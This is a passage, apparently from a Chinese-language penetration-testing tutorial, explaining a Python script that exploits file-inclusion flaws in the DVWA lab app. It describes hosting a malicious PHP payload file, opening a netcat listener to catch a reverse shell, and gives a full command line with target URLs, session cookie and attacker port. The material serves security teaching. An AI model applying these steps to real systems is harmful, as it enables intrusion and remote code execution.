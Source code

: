 ![](img/ca58e9a5-7ce5-4b93-b1ad-b94a472b1cf0.png)

在第 115 行，我们正在调用一个进程，该进程将使浏览器使用`start()`方法向一个带有有效载荷的易受攻击页面发出请求，在第 116 行之下。但在实际访问利用之前，我们需要设置一个 netcat 监听器。第 119 行设置了一个 Netcat 监听器，并且我们在`send_exp()`方法的定义中引入了五秒的时间延迟，给 netcat 启动的时间。一旦启动，有效载荷将通过`send_exp()`方法在第 61 行之下传递。如果一切顺利，我们的监听器将获得 shell。

107-113 行处理漏洞的 RFI 部分。要利用 RFI，我们需要在攻击者机器上创建一个名为`evil.txt`的恶意文件，它将传递 PHP 有效载荷。创建后，我们需要将它放在`/var/www/html/evil.txt`中。然后，我们需要启动 Apache 服务器并将有效载荷传递 URL 更新为 RFI 的地址。最后，使用`send_exp()`方法，我们传递我们的有效载荷，然后启动 netcat 监听器。

上述代码适用于 LFI 和 RFI 漏洞。给定的代码按以下顺序获取用户参数：

```py
python LFI_RFI.py <target ip> <target Base/Login URL> <target Vulnetable URL> <Target Vul parameter> <Login required (1/0)> <Login cookies> <Attacker IP> <Attacker Lister PORT> <Add params required (1/0)> <add_param_name1=add_param_value1,add_param_name2=add_param_value2>  | <LFI (0/1)>
```

# 执行 LFI 利用

要执行和利用 LFI 漏洞，我们将向脚本传递以下参数：

```py
python LFI_RFI.py 192.168.1.102 http://192.168.1.102/dvwa/login.php http://192.168.1.102/dvwa/vulnerabilities/fi/ page 1 "security=low;PHPSESSID=5c6uk2gvq4q9ri9pkmprbvt6u2" 192.168.1.102 4444
```

上述命令将产生如下截图所示的输出：
